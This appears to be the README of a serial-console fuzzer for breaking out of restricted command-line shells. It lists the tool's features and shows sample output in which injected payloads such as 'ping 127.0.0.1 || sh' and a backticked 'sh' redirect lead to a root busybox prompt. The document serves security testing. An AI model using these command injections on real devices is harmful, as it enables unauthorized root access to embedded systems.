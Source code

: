 # CLISerialFuzzer
Serial Connection CLI Command Jail Break Fuzzer.

## Features
* Configurable Serial Communications
* Auto-relogin detection
* Success-case detection
* Exception-case detection
* Easy to configure command payloads
* Customizable timing / delays
* Fuzz resuming based on test case numbers
* Time remaining estimate updates

## Installation
```

```

## Command Line Parameters
```

```


## Output
```
Serial Connection CLI Command Jail Break Fuzzer : 1.0 Updated: May 3, 2018
Relogin String found from command (test case # 11): 
ping  127.0.0.1    `sh >> /dev/ttyp0`

Entering Username and Password...
Relogin String found from command (test case # 13): 
ping  127.0.0.1    sh

Entering Username and Password...
Relogin String found from command (test case # 35): 
ping  127.0.0.1    `sh >> /dev/ttyp0`

Entering Username and Password...
Error String found from command (test case # 36): 
ping  127.0.0.1    echo FREEDOM >> /tmp/imfree.txt

Success String found from command (test case # 42):
ping 127.0.0.1  || sh
Result Data:

root@busybox:~#

```
